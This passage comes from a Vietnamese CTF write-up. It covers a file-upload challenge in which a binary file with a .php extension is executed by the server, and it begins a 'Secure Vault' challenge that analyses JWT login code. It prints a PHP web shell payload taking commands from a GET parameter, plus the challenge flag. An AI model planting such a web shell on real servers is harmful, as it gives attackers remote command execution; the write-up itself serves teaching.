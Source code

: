 Mặc dù file `lol.php` thực ra là file binary, nhưng khi ta để đuôi `.php` sẽ khiến server nhận diện sai và cố gắng parse file như là một file php bình thường (Những ký tự hình chữ nhật kia là những bytes mà server không parse được). Khi gặp `<?php system($_GET["cmd"]?>`, lệnh php sẽ được thực hiện. 

Ngoài ra, thay vì `<?php system($_GET["cmd"])?>` ta có thể để luôn là `<?php system("/printflag")?>`

<aside>
🚩 actf{why_do_people_still_use_php}

</aside>

# **Secure Vault**

Website cho phép ta tạo tài khoản / đăng nhập và lưu một string bất vào “vault” của bạn

![Untitled](writeup_media/Untitled%2018.png)

Ban đầu đọc code, mình cứ ngỡ bài này sẽ crack `jwt` ~~và mình đã treo máy hơn một ngày để bruteforce 20 ký tự `jwtKey`~~. Nhưng sau một hồi bất lực và ngẫm nghĩ về tương lai sau này, mình quyết định debug từng dòng code một. 

![Untitled](writeup_media/Untitled%2019.png)

Phân tích chút đoạn `/login` này. Server sẽ lấy object `user` từ `username` trong request. Phần `users.get()` sẽ trả về object `user` nếu tồn tại username, hoặc object rỗng nếu không.

![Untitled](writeup_media/Untitled%2020.png)
